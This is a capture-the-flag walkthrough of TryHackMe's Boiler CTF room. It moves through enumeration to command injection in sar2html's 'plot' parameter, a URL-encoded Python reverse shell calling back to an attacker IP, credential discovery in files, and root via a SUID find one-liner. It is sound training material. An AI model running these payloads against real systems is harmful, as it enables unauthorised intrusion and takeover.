

# Boiler CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Boiler CTF** CTF challenge on [TryHackMe](https://tryhackme.com/room/boilerctf2). 
---


we see 4 ports open 21, 80, 10000, 55007



checking ftp first


we found hidden txt file containing: `Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
` this is ROT13 encoded but there is no usefull info

we need to check the webpage, on the port 80 there is default apache2 `2.4.18` website 

we see some interesting data inside robots.txt 


```
/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075


```

from the numbers we can decipher md5 hash 

found few folders with feroxbuster for port 10000


I found joomla by using feroxbuster


i tested folders `/_database` , `/_archive`, `/_files` and `/_test`

on the `/_test` directory i found `sar2html`


after googling i found RCE exploit in `exploit-db` and note how to execute it


after inputing `http://IP/joomla/_test/index.php?plot=;whoami` we know about `www-data` user


i tried few diffrent reverse shells and this worked 

```
http://10.10.184.86/joomla/_test/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.14.91.59%22,4445));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```


we have shell access as www-data, after checking with ls we found `log.txt` and inside there is password for `basterd` user


after looking around we find `backup.sh` script, inside we some comment that looks like password and also we see ssh where `USER=stoner` command 


i will try to switch to stoner using this password 

it worked and we also found user flag


there was no `wget` so i used `curl -O` to get `linpeas.sh`


we found SUID for `/usr/bin/find`


checked GTFObins for PE vector


we use this one-liner to become root

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

now we have root access and root flag


# MACHINE PWNED
